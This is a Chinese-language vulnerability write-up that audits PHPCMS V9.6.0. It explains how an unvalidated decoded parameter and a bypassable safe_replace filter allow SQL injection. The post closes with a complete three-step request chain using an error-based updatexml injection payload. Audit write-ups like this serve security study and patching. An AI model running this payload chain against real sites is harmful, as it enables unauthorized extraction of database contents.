










@Author：Y4tacker

@time：2021/02/20 22：35


# PHPCMSV9.6.0注入漏洞

首先还是先列出payload再进行分析，这一次我们采用倒推法进行分析，因为我觉得更好去理解这个漏洞的流程，漏洞原因是未对解码后的数据进行校验就直接执行了sql

在审计之前我们得知道，这个cms在类初始化的时候一般都会调用`__construct`与`init`两个函数，从最后一步`m=content&c=down`我们不难分析得知是调用了`phpcms/modules/content/down.php`这个php页面`__construct`我们可以略过

我们先来开与`a_k`变量相关的函数部分,之后调用了其DECODE



我们不妨再去看看`sys_auth`是干什么的,不难看出里面是根据参数`$operation`的值来执行`ENCODE`与`DECODE`方法



我们再回到down.php，发现确实返回了DECODE后的值，并且后面没有进行参数校验就直接执行了sql语句



既然知道了这么多，那么我们下一步理所当然自然是去寻找能调用`sys_auth`的ECNODE方法的函数了

通过全局的搜索，发现`set_cookie`方法当中有过调用，并且这个方法自然是很容易被调用



继续全局搜索`set_cookie`方法，发现`phpcms/modules/attachment/attachments.php`下面有个`swfupload_json`函数相对来说是比较好利用的



根据这个CMS的架构我们不难得出想要调用它url后面就要拼接`m=attachment&c=attachments&a=swfupload_json`即可实现调用访问的时候页面出现报错，提示`您的会话已过期，请重新登录。`既然如此那么我们就得知道这是为什么，记得我之前说的这个cms在类初始化的时候一般都会调用`__construct`与`init`两个函数，因此我们去看看这两个函数，看了下只有`__construct`，我们发现他是通过校验session来判断是否登录的



我们看上面有一句

```php
$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
```

因为我们这里session暂时、是不可控的cookie似乎也显得麻烦，所以如果什么都不管他会执行`sys_auth($_POST['userid_flash'],'DECODE')`，因此我们只需要让他不为空就行了呗，之后我们在搜索，发现调用sys_auth加密还有个地方是`phpcms/modules/wap/index.php`，siteid可控因此我们随便传个东西，看到int函数等操作也只能传数字了

```php
$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);

```

获取到cookie即可



接下来就是要构造payload了，我们再次回到`down.php`



发现这三行，一个是解除引用，之后`parse_url`可以实现变量覆盖，我们下面要想执行自定义SQL语句那么一定不能执行上面的`$id = intval($i);`绕过也很简单，只要不传入`$i`变量即可，那么我们可以先构造`%26id=%27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`解码后是`&id=' and updatexml(1,concat(1,(user())),1)#&m=1&f=haha&modelid=2&catid=7&`，但是光这样的话我们发现绕不过下一步`phpcms/modules/attachment/attachments.php`下`swfupload_json`的waf，我们看一看在这个函数当中有一个

```
$arr['src'] = safe_replace(trim($_GET['src']));
```

我们跟进这个`safe_replace`函数，表面上一看该给我们过滤的都没了



但是仔细看它只是把不允许的字符替换为空，那么如果我们传入`%*27`替换过后那不就是`%27`了吗，那么把上面的payload稍微改一改即可

```php
%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26
```

接下来我们整理下完整的payload流程

```php
第一步：访问网站拿到set-cookie的值
/index.php?m=wap&c=index&siteid=1
第二步：post数据拿到set-cookie的值
/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26

userid_flash=第一步拿到的set-cookie的值
第三步访问
/index.php?m=content&c=down&a_k=第二步拿到的set-cookie的值
即可通过报错注入获取我们需要的数据
```

测试一下，成功得到我们需要的信息

